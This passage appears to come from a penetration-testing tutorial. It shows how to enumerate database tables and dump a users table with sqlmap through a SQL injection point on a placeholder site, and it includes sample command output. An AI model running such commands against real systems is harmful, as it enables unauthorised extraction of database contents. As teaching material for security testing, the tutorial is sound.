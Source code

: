 ```shell
```

From the above example, we can see that the database version is quite old (MySQL 5.1.41 - from November 2009), and the current user name is `root`, while the current database name is `testdb`.

Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

* * *

## Table Enumeration

In most common scenarios, after finding the current database name (i.e. `testdb`), the retrieval of table names would be by using the `--tables` option and specifying the DB name with `-D testdb`, is as follows:

```shell
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+

```

After spotting the table name of interest, retrieval of its content can be done by using the `--dump` option and specifying the table name with `-T users`, as follows:

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'

```
